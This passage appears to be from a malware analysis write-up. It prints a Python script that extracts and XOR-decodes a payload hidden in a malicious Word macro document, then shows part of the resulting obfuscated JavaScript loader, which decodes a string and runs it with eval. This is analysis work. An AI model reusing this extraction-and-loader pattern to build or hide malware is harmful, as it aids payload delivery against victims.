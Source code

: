 ```python
import re

def search_regex_in_docm(file_path, regex_pattern):
    with open(file_path, 'rb') as file:
        content = file.read()
        matches = re.finditer(regex_pattern, content)
        for match in matches:
            return(match.start())

def func_xor(given_string, length):
    xor_key = 45
    for i in range(length):
        given_string[i] = given_string[i] ^ xor_key
        xor_key = ((xor_key ^ 99) ^ (i % 254))
    return(given_string)


file_path = 'invitation.docm'
regex_pattern = b'sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa'

matchstart = search_regex_in_docm(file_path, regex_pattern)

with open(file_path, 'rb') as file:
    file.seek(matchstart + 80)
    match = file.read()

#print(match)
match = bytearray(match)

long = 13082
match = match[:long]

string = func_xor(match, long)

with open('mailform.js', 'wb') as file:
    file.write(string)
```

After that we got even deeper - this js file was not actually a malware, but rather obfuscated loader for such, here is the source:
(P.S. firstly the DASz var was pointing at Shell variables, but I just replaced it straight with the value)
```js

var DASz = "vF8rdgMHKBrvCoCp0ulm";
var Iwlh = lyEK();
Iwlh = JrvS(Iwlh);
Iwlh = xR68(DASz, Iwlh);
eval(Iwlh);
function af5Q(r) {
	var a = r.charCodeAt(0);
	if (a === 43 || a === 45)
		return 62;
	if (a === 47 || a === 95)
		return 63;
	if (a < 48)
		return -1;
	if (a < 48 + 10)
		return a - 48 + 26 + 26;
	if (a < 65 + 26)
		return a - 65;
	if (a < 97 + 26)
		return a - 97 + 26;
}
```